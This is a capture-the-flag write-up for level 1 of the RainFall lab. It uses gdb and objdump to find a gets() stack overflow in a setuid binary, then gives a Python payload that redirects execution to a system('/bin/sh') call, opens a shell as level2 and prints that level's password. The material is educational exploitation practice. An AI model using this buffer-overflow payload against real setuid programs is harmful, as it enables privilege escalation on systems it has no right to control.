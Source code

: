 # Level 1

## Vulnerability

Stack overflow <br/>
[Owasp example](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. <br/>
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.  <br/>
In this case, if we overflow the ```gets()``` buffer, we can overwrite the ```return``` call and insert our own malicious code in its place. 

```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here by printing 76 characters. <br/>
We can confirm the EIP is at offset 76 by using gdb and [this EIP offet tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/). <br/>
The next step is to look for where we can regain control. <br/>

```objdump``` will give us a deeper look at the assembly instructions in this binary file. <br/>
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$ objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a function ```run()``` with a ```system()``` call that we can exploit. <br/>
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```

## Recreate Exploited Binary

As user level2, in /tmp, create and compile level1_source.c.
```
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc level1_source.c -fno-stack-protector -o level1_source
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall:/tmp$ chmod u+s level1_source
level2@RainFall:/tmp$ chmod +wx ~; mv level1_source ~
```
Exit back to user level1, then run the binary. <br/>
Note: our new EIP offset is 88.
```
level2@RainFall:/tmp$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*88 + "\x64\x84\x04\x08"'; cat) | /home/user/level2/level1_source
```
